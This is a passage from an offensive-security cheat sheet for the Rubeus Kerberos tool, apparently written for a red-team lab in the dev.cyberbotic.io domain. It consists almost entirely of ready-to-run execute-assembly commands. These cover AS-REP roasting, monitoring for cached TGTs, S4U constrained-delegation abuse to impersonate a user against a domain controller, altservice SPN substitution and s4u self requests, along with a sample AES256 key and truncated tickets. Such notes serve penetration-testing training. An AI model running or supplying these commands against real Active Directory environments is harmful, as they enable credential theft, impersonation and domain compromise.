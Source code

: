 ```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asreproast /user:squid_svc /nowrap
```

### monitor

Monitors for new TGTs as they get cached.

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:10 /nowrap
```

### s4u

Performs a service for user request.

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /msdsspn:cifs/dc-2.dev.cyberbotic.io /user:sql-2$ /ticket:doIFLD[...snip...]MuSU8= /nowrap
```

where:

- `/impersonateuser` is the user we want to impersonate.
- `/msdsspn` is the service principal name that SQL-2 is allowed to delegate to.
- `/user` is the principal allowed to perform the delegation.
- `/ticket` is the TGT for `/user`.

#### AES256

Performs a service for user request with an AES256 ticket.

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:PVWUMPYT$ /impersonateuser:nlamb /msdsspn:cifs/wkstn-1.dev.cyberbotic.io /aes256:46B94228F43282498F562FEF99C5C4AF67269BE5C8AD31B193135C7BD38A28A2 /nowrap
```

#### altservice

Requests a service ticket for a service and modifies the SPN to the specified `altservice`.

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /msdsspn:cifs/dc-2.dev.cyberbotic.io /altservice:ldap /user:sql-2$ /ticket:doIFpD[...]MuSU8= /nowrap
```


### s4u self

Performs a service for user to self request.

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /self /altservice:cifs/dc-2.dev.cyberbotic.io /user:dc-2$ /ticket:doIFuj[...]lDLklP /nowrap
```

##### Pass the Ticket
